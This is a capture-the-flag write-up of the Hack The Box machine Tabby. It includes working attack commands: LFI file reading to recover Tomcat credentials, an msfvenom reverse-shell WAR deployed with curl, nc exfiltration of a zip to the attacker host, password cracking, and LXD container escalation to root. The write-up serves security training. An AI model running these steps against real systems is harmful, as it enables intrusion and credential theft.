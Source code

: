 ```yaml
---
title: HTB - Tabby Write-up
author: bigb0ss
date: 2020-11-07 19:36:00 +0800
categories: [Hack The Box, Windows, Easy]
tags: [hackthebox, tabby, lfi, tomcat, zip2john, lxd, container]
image: /assets/img/post/htb/tabby/01_infocard.png
---
```


This was an easy difficulty box. It was pretty easy and straight-forward box. Good learning path to:
* LFI File Enumeration
* Tomcat JSP Script Exploit
* Password Protected .zip File Abuse
* LXD Container Breakout


## Initial Recon

### Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -sC -sV 10.10.10.194

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Interesting Ports to Note

* HTTP (80/TCP) - Mega Hosting Web page. 

![image](/assets/img/post/htb/tabby/02_http.png)

* HTTP (8080/TCP) - Apache Tomcat Default Page.

![image](/assets/img/post/htb/tabby/03_8080.png)

> **NOTE**: I did perform a quick default login check against the manager login portal `/manager/html`, but no luck there. 


## Initial Foothold

### LFI (Mega Hosting Website)

By looking at the source code for the web page, we can discover the domain name `megahosting.htb`. Let’s add that into our `/etc/hosts` file. 

![image](/assets/img/post/htb/tabby/04_hosts.png)

And we can see that `http://megahosting.htb/news.php?file=` is vulnerable to LFI, and we can read arbitrary files within the system.

![image](/assets/img/post/htb/tabby/05_lfi.png)

Indeed, the `news.php` was badly written to be vulnerable to LFI. It simply takes the user supplied filename and opens it up. 

![image](/assets/img/post/htb/tabby/06_burp.png)

<b>tomcat</b>
Since we know that there is a Tomcat 9 server running on the port `8080`, we can leverage the LFI to find sensitive data such as `tomcat-users.xml`. The file was located at `/usr/share/tomcat9/etc/tomcat-users.xml` (The file wasn’t in a typical location, so I had to some trial-and-error and bruteforcing.) Within the file, we can see the credentials for the Tomcat Manager console.

```console
User: tomcat
Pass: $3cureP4s5w0rd123!
```

![image](/assets/img/post/htb/tabby/07_burp.png)

Although we have the right creds, when we try to access the `/manager/html` page, we get a 403 Access Denied.

![image](/assets/img/post/htb/tabby/08_accessdeni.png)

However, we can still deploy the `.war` file via `curl`. First, let’s make a reverse shell payload with `msfvenom`:

```console
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f war > bigb0ss.war
```

Then, using `curl`, deploy the payload:

```console
$ curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file bigb0ss.war 'http://10.10.10.194:8080/manager/text/deploy?path=/bigb0ss'

OK - Deployed application at context path [/bigb0ss]
```

Once deployed, by accessing the URL on a browser, we can trigger the payload to call back to our listener.

![image](/assets/img/post/htb/tabby/09_rce.png)


## Privilege Escalation

### tomcat —> ash

Further enumeration found that there is a directory called `/var/www/html/files` which is owned by the user `ash`.

![image](/assets/img/post/htb/tabby/10_ash.png)

Within the directory, there is an interesting `.zip` file.

![image](/assets/img/post/htb/tabby/11_ash.png)

And using the following `netcat` commands, we can download the `.zip` file to our Kali box:

```console
# Kali Box
$ nc -lvnp 80 > backup.zip

# Tabby Box
$ nc 10.10.14.3 80 < 16162020_backup.zip
```

![image](/assets/img/post/htb/tabby/12_ash.png)

<b>Zip Password Cracking</b>
So, the `.zip` file was protected with a password.

![image](/assets/img/post/htb/tabby/13_ash.png)

We can use `zip2john` and `john` to potentially crack the password. 

```console
# zip2john
$ zip2john backup.zip > bakcup-prep.zip

# John
$ john --wordlist=/usr/share/wordlists/rockyou.txt bakcup-prep.zip
```

And it cracked the password as `admin@it`

![image](/assets/img/post/htb/tabby/14_ash.png)

<b>user.txt</b>

The recovered password was indeed valid to unzip the file; however, there was nothing. Instead, that was a correct password for the `ash` user. We can now login as `ash` and read the `user.txt` flag.

![image](/assets/img/post/htb/tabby/15_ash.png)


### ash —> root (LXD Privilege Escalation)

From the above image, we can see that `ash` is member of the `LXD` group. It is a Linux Daemon (LXD) that is a lightweight container hypervisor. And there is a known privilege escalation path for a local user that is part of the `LXD` group to gain `root` access on the system. More details about the attack can be found [here] (https://www.hackingarticles.in/lxd-privilege-escalation/).

So the attack contains 2 step processes:

On the Kali Box:

```console
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Once it’s built, we will see the `.tar.gz` file.

![image](/assets/img/post/htb/tabby/16.png)

And let’s move the file to the Tabby box:

![image](/assets/img/post/htb/tabby/17.png)

![image](/assets/img/post/htb/tabby/18.png)

On the Tabby Box:

```console
# Initiating the LXD (*Answer things for default setting)
$ lxd init

# Import Image
$ lxc image import ./alpine-v3.12-x86_64-20201030_0034.tar.gz --alias bigb0ss

$ lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| bigb0ss | c57d8b79d13e | no     | alpine v3.12 (20201030_00:34) | x86_64       | CONTAINER | 3.07MB | Oct 30, 2020 at 4:58am (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+

$ lxc init bigb0ss priv -c security.privileged=true
$ lxc config device add priv mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start priv
```

Once we started the `priv`, then, we can run the following command to escalate our privilege to `root` and read the `root.txt` flag.

```console
$ lxc exec priv /bin/sh

~ # ^[[51;5Rid
id
uid=0(root) gid=0(root)
~ # ^[[51;5Rcat /mnt/root/root/root.txt
cat /mnt/root/root/root.txt
b0d<REDACTED>d7c
```

Thanks for reading! 
